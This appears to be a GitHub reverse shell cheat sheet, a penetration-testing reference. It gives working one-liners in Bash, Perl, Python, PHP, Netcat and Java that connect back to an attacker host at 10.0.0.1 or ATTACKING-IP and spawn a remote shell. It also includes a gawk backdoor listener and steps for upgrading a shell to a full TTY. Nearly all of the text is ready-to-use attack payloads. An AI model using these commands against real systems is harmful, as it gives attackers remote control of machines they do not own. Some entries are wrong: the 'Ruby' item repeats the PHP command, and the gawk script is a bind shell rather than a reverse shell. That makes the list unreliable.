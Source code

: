 # Reverse Shell Cheat Sheet

---

This list represent an comphrehensive cheet sheet of shells and other related stuffs.

### Listening

To setup a listening instance, enter the following:

```sudo nc -nvlp 80```

### Reverse Shell

To connect back to a listening netcat instance, enter the following:

- Bash:
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

- PERL:
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- PERL Windows 1:
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

- Python:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- PHP:
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- Ruby:
```ruby
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- Netcat:
```bash
nc -e /bin/sh 10.0.0.1 1234
```

- Java:
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

- Gawk Reverse Shell:
```bash
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

- Spawning interactive reverse shells with TTY:
```bash
# In reverse shell 
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Attacker console
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```


Sources:
- [On HighOn Blog](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [On Pentenst Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [On Medium](https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e)
